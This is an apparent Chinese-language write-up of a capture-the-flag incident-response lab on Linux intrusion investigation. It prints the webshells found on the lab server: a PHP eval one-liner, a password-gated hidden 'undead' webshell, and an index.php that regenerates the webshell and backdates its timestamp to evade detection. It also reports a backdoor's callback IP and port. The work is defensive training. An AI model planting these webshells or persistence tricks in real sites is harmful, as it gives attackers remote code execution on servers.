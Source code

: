 ```yaml
---
title: 应急响应-linux入侵排查
date: 2024-11-26 22:16:17
permalink: /pages/29c781/
categories:
  - wp
tags:
  - 玄机
  - wp
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# 应急响应-linux入侵排查

检查任务

- 1.web目录存在木马，请找到木马的密码提交

- 2.服务器疑似存在不死马，请找到不死马的密码提交

- 3.不死马是通过哪个文件生成的，请提交文件名

- 4.黑客留下了木马文件，请找出黑客的服务器ip提交

- 5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交

## web目录存在木马，请找到木马的密码提交

连接上服务器ls一堆文件，打包下来扔D盾

```bash
cd /var/www/html
tar -cvzf web.tar.gz  /var/www/html .
```

本地scp下载下来扔d盾

```bash
scp root@ip:/var/www/html/web.tar.gz .
```

![1](/medias/xjruqin/1.png)

查看源码，可以看出

- 1.php是一个php一句话木马，密码是1
- .shell.php是一个隐藏木马，由index.php生成，密码加密后md5值是5d41402abc4b2a76b9719d911017c592
- index.php是生成隐藏木马.php的脚本并使用touch命令修改了生成时间躲避查杀

1.php

```php
<?php eval($_POST[1]);?>
```

.shell.php

```php
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

index.php

```php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
	$path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
	Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
	Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

第一个flag是flag{1}

## 服务器疑似存在不死马，请找到不死马的密码提交

`.shell.php`是隐藏木马，同时使用touch命令修改了创建时间躲避查杀，那么就他了

md5解密拿到来密码

![2](/medias/xjruqin/2.png)

flag{hello}

## 不死马是通过哪个文件生成的，请提交文件名

flag{index.php}


## 黑客留下了木马文件，请找出黑客的服务器ip，端口

在解压的文件里有一个elf的linux可执行文件，扔进微步云沙箱在线分析一下

![3](/medias/xjruqin/3.png)

在云沙箱分析的网络行为检测里，可以看到后门连接的ip及端口

dst：目标ip
dport：目标端口

![4](/medias/xjruqin/4.png)

flag{10.11.55.21}

flag{3333}

> 又学到了，云沙箱分析，好工具

参考：

- [第一章-应急响应-Linux入侵排查-玄机靶场](https://lexsd6.github.io/2024/07/10/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5-%E7%8E%84%E6%9C%BA%E9%9D%B6%E5%9C%BA/)
- [玄机应急响应 - 第一章 - 应急响应 - Linux 入侵排查](http://www.sword-blogs.com/2024/04/11/%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/%E7%8E%84%E6%9C%BA%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/%E7%AC%AC%E4%B8%80%E7%AB%A0%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/)